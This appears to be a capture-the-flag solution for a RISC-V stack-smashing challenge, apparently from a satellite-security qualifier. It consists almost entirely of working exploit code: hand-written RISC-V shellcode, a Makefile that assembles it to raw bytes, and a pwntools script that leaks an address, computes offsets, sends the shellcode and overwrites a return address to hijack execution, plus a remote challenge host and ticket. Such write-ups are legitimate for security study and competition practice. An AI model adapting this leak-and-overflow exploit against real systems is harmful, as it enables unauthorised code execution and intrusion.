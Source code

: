shellcode:
```c
/* attack.s */
_start: /* not needed but it looks better this way :) */
    li   a0,   1
    li   a1,   0x40800cfc
    li   a2,   0x300
    li   ra,   0x107d8
    jalr a3,   0(ra)
```

compiled with:
```sh
# Makefile
build: attack.s
    riscv32-unknown-elf-as -o attack.o attack.s
    riscv32-unknown-elf-objcopy -I elf32-littleriscv -O binary attack.o attack.bin
```
The first command compiles the assembly into an object file, and the second command strips everything from the elf
file and leaves only the section contents, leaving only the shellcode.

final exploit:
```python
from pwn import *

if args.REMOTE:
    io = remote("riscv_smash.quals2023-kah5Aiv9.satellitesabove.me", 5300)
    io.sendlineafter(b"Ticket please:\n", b"ticket{mike519464juliet4:GOKPBLXYOmtSLqsRatJTXZDuTDCBaH53fMS8_H0nOJSDxZGshZI-bIS4ZA0B85ftKA}")
else:
    io = process(["/home/unvariant/qemu-8.0.0-rc2/build/qemu-riscv32", "./smash-baby"])

def sync():
    io.send(b"ACEG")

io.recvuntil(b": ")

leak = io.recvline().strip()
leak = int(leak[2:], 16)
print(f"[+] leak: 0x{leak:x}")
code = leak + 0x24 - 0x40
read_message = code - 0x30
do_face = read_message - 0x140
print(f"[+] code: 0x{do_face:x}")

sync()
io.send(b"\xfa\xce")
shellcode = open("attack.bin", "rb").read().ljust(300, b"\x00")
io.send(shellcode)

sync()
io.send(b"BB")
payload = b"A" * 0x24 + p32(do_face)
payload = payload.ljust(0x3c, b"A")
io.send(payload)

io.interactive()
```